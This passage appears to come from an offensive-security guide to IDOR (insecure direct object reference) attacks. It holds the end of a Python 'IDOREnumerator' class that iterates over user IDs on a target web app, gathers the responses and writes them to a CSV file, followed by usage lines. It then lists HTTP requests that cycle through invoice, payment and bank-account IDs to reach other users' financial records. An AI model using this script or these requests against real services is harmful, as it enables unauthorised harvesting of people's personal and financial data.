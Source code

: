 ```python
                    
                    except json.JSONDecodeError:
                        # Handle non-JSON responses
                        if len(response.text) > 0:
                            print(f"[+] Found user {user_id}: Non-JSON response")
                
                elif response.status_code == 403:
                    print(f"[-] Access denied for user {user_id}")
                
                # Rate limiting
                time.sleep(0.1)
            
            except Exception as e:
                continue
        
        return self.extracted_data
    
    def save_to_csv(self, filename):
        """Save extracted data to CSV"""
        if not self.extracted_data:
            return
        
        with open(filename, 'w', newline='') as csvfile:
            fieldnames = self.extracted_data[0].keys()
            writer = csv.DictWriter(csvfile, fieldnames=fieldnames)
            
            writer.writeheader()
            for row in self.extracted_data:
                writer.writerow(row)
        
        print(f"[+] Data saved to {filename}")

# Usage
headers = {'Authorization': 'Bearer your_token_here'}
enumerator = IDOREnumerator("https://vulnerable-app.com", headers)
data = enumerator.enumerate_users(1, 100)
enumerator.save_to_csv("extracted_users.csv")
```

### 2. 💰 Financial Data Access

#### Invoice and Payment IDOR
```bash
# Invoice access
GET /api/invoice/12345 HTTP/1.1
Authorization: Bearer user_token

# Try accessing other invoices
GET /api/invoice/12346 HTTP/1.1
GET /api/invoice/12344 HTTP/1.1

# Payment information
GET /api/payment/67890 HTTP/1.1
GET /api/payment/67891 HTTP/1.1

# Bank account details
GET /api/account/details/98765 HTTP/1.1
```
